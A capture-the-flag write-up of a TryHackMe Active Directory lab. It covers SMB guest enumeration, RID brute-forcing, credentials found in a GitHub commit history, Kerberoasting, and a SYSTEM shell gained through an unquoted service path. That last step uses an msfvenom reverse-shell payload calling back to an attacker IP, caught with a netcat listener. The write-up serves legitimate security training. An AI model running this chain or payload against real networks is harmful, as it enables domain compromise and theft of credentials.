This box is rated hard difficulty on THM. It involves us discovering an Atlassian BitBucket instance running on a higher HTTP port, leading us to a GitHib repository. Digging into the organization reveals an employee whose password can be found in an old commit, granting us domain credentials. Using those to Kerberoast another account gives us a shell over RDP, and enumerating Windows Services will disclose one with an unquoted service path. Finally, we can upload a malicious binary to take advantage of this vulnerability and get SYSTEM level access on the domain.

_You just landed in an internal network. You scan the network and there's only the Domain Controller..._

## Host Scanning
As always, I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns the typical AD ports.

```
$ sudo nmap -sCV 10.64.148.206 -oN fullscan-tcp

Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-24 19:22 -0400
Nmap scan report for 10.64.148.206
Host is up (0.043s latency).

PORT      STATE  SERVICE       VERSION
53/tcp    open   domain        Simple DNS Plus
80/tcp    open   http          Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open   kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-24 23:22:57Z)
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open   ldap          Microsoft Windows Active Directory LDAP (Domain: ENTERPRISE.THM, Site: Default-First-Site-Name)
445/tcp   open   microsoft-ds?
464/tcp   open   kpasswd5?
593/tcp   open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open   tcpwrapped
3268/tcp  open   ldap          Microsoft Windows Active Directory LDAP (Domain: ENTERPRISE.THM, Site: Default-First-Site-Name)
3269/tcp  open   tcpwrapped
3389/tcp  open   ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-04-24T23:24:00+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: LAB-ENTERPRISE
|   NetBIOS_Domain_Name: LAB-ENTERPRISE
|   NetBIOS_Computer_Name: LAB-DC
|   DNS_Domain_Name: LAB.ENTERPRISE.THM
|   DNS_Computer_Name: LAB-DC.LAB.ENTERPRISE.THM
|   DNS_Tree_Name: ENTERPRISE.THM
|   Product_Version: 10.0.17763
|_  System_Time: 2026-04-24T23:23:52+00:00
| ssl-cert: Subject: commonName=LAB-DC.LAB.ENTERPRISE.THM
| Not valid before: 2026-04-23T23:10:59
|_Not valid after:  2026-10-23T23:10:59
5985/tcp  open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7990/tcp  open   http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Log in to continue - Log in with Atlassian account
|_http-server-header: Microsoft-IIS/10.0
9389/tcp  open   mc-nmf        .NET Message Framing
47001/tcp open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open   msrpc         Microsoft Windows RPC
49665/tcp open   msrpc         Microsoft Windows RPC
49667/tcp open   msrpc         Microsoft Windows RPC
49668/tcp open   msrpc         Microsoft Windows RPC
49669/tcp open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open   msrpc         Microsoft Windows RPC
49672/tcp open   msrpc         Microsoft Windows RPC
49676/tcp open   msrpc         Microsoft Windows RPC
49698/tcp open   msrpc         Microsoft Windows RPC
49707/tcp open   msrpc         Microsoft Windows RPC
49862/tcp open   msrpc         Microsoft Windows RPC
Service Info: Host: LAB-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-04-24T23:23:52
|_  start_date: N/A
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.27 seconds
```

Looks like a Windows machine with Active Directory components installed on it, more specifically a Domain Controller. LDAP is leaking the Fully Qualified Domain Name of `LAB-DC.LAB.ENTERPRISE.HTB` which I add to my `/etc/hosts` file. There are web servers running so I fire up Ffuf to search for subdirectories and Vhosts in the background to save on time.

## Service Enumeration
Because there are a ton of ports open, I'll start with SMB, HTTP, and LDAP to gather information initially. Testing for Guest/Null authentication over SMB succeeds and shows that we have read permissions on two non-standard shares, named Docs and Users. 

```
$ nxc smb LAB-DC.LAB.ENTERPRISE.THM -u 'Guest' -p '' --shares
```



### SMB Shares
There are two Microsoft documents in the former, both are secured with RSA encryption. One is for credentials and the other for the organization's PII.

```
$ smbclient //LAB-DC.LAB.ENTERPRISE.THM/Docs -U 'Guest'
```



Checking out the Users folder links straight to `C:\Users` on the DC, which allows us to enumerate their home directories if we have the correct permissions. A bit of snooping reveals that the _lab-admin_ user has a PowerShell history file under their AppData folder.

```
$ smbclient //LAB-DC.LAB.ENTERPRISE.THM/Users -U 'Guest' 
```



After transferring that to my local machine, we can find credentials for a user named replication that seems to have been sent to an external IP, completing some kind of transaction. I note that this history file logged the presence of a `D:\` drive which will be interesting to enumerate once we get a shell.



## Exploitation

### Password Spraying
I brute-force RIDs to gather valid SAMAccountNames on the domain, in order to spray this newfound password, but nothing succeeds. We can create a wordlist of usernames by capturing the output and using an awk command to strip everything else.

```
$ nxc smb LAB-DC.LAB.ENTERPRISE.THM -u 'Guest' -p '' --rid-brute 4000 > ridout.txt

$ cat ridout.txt | awk -F'\\' '{print $2}' | awk '{print $1}' > validusers.txt

$ tail validusers.txt 
korone
banana
Cake
Password-Policy-Exemption
Contractor
sensitive-account
contractor-temp
varg
adobe-subscription
joiner
```



Quickly looking at the landing page on port 80 shows a message telling us to keep out of the Domain Controller's area.



### Creds via GitHub OSINT
Hopping over to the web server on port 7990 prompts a login for the Atlassian BitBucket server. This corresponds to the presence of the _atlbitbucket_ user found whilst brute-forcing RIDs.



Entering anything into the email field will not do anything, but we can take note of the message disclosing that employees are moving to Github. A quick Google search for their domain name leads me to their [repository](https://github.com/Enterprise-THM) that only contains an About Us page.



There's not much in the main branch, but further inspection shows a developer named _Nik_ that is apart of the listed people in the organization.



Checking out his account gives us one script to look at, and by finding the differences between commits, we are rewarded with credentials for their account.



### Kerberoasting
Confirming that these work over SMB doesn't give us any new shares, but now that we have valid domain credentials, I start BloodHound to map the domain. I use [BloodHound-Python](https://github.com/dirkjanm/bloodhound.py) to collect the data since we don't have shell access to upload SharpHound just yet.

```
$ bloodhound-python -c all -d lab.enterprise.thm -u 'nik' -p '[REDACTED]' -ns 10.64.148.206
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: lab.enterprise.thm
WARNING: Could not find a global catalog server, assuming the primary DC has this role
If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc
INFO: Getting TGT for user
INFO: Connecting to LDAP server: lab-dc.lab.enterprise.thm
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: lab-dc.lab.enterprise.thm
INFO: Connecting to GC LDAP server: lab-dc.lab.enterprise.thm
INFO: Found 15 users
INFO: Found 51 groups
INFO: Found 2 gpos
INFO: Found 5 ous
INFO: Found 19 containers
INFO: Found 2 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: LAB-DC.LAB.ENTERPRISE.THM
INFO: Done in 00M 10S

$ sudo bloodhound
```

This doesn't show any that we have outbound object control permissions or are apart of any sensitive groups. We can go Kerberoasting now, seeing as we can authenticate as _Nik_.



Sending that hash over to Hashcat or JohnTheRipper quickly recovers the plaintext version.



### Initial Foothold
BloodHound shows that this person is apart of the Remote Desktop Users group, allowing us to grab an RDP session with these credentials. At this point we can also capture the user flag on their Desktop folder and start looking at ways to escalate privileges towards Administrator.

```
$ xfreerdp /v:10.64.148.206 /u:bitbucket /p:'[REDACTED]'
```



## Privilege Escalation
I spent some more time establishing where trusts have been made between accounts we had access to, but this didn't give me anything to work with. I decide to go about the usual routes for Windows privesc, checking for binaries prone to service hijacking, special privileges, unquoted service paths, etc.

### Unquoted Service Path
Eventually, I find that the ZeroTierOneService's path does not contain double quotes in it. This could allow us to take advantage of the way Windows searches for binaries and have the system execute a malicious executable instead, provided we have the necessary write permissions for those directories.

```
$ wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```



If you're unfamiliar with this vector - An unquoted service path privilege escalation happens on Windows when a service runs from a path with space, but isn't wrapped in quotes. The system may misinterpret the path and try to execute C:\Program.exe first, allowing an attacker to drop a malicious executable there and get it run with the service's (often SYSTEM) privileges.

Since our full path is `C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe`, the system will attempt to find the correct binary at `C:\Program.exe`, then `C:\Program Files (x86)\Zero.exe`, then `C:\Program Files (x86)\Zero Tier\Zero.exe` and so on.

### Prepping Exploit
Let's quickly check if we have write permissions to any of those directories by using the icacls command.

```
$ icacls "C:\Program Files (x86)\Zero Tier"
```



Looks like we can write to the `C:\Program Files (x86)\Zero Tier` directory, making it vulnerable. In our case, the malicious executable must be named **Zero.exe** and reside in that folder.

I will use msfvenom to create a reverse shell in Windows PE32+ format on my local machine. Note that this would easily get shot down by antivirus, however that doesn't seem to be a problem here.

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[ATTACKER_IP] LPORT=443 -f exe -o Zero.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7680 bytes
Saved as: Zero.exe
```

### SYSTEM Access
We can host a Python web server use cURL to transfer the file over, ultimately placing it into the proper folder. All that's left is to setup a Netcat listener and restart the service to grab a shell in the context of whoever is running the application.

```
--On Local Machine--
$ rlwrap -cAr nc -lvnp 443

--On Domain Controller--
$ Stop-Service zerotieroneservice
$ Start-Service zerotieroneservice
```



This service was ran at system level and as a result, we are granted a shell as `NT AUTHORITY\SYSTEM`. Finally, we can grab the root flag under the Administrator's desktop folder to complete this challenge.

Overall, I really liked this box due to the OSINT portion. That combined with the decent amount of rabbit holes and realistic PrivEsc technique made it enjoyable, but I'm not sure I'd label it as hard difficulty. I hope this was helpful to anyone following along or stuck and happy hacking!
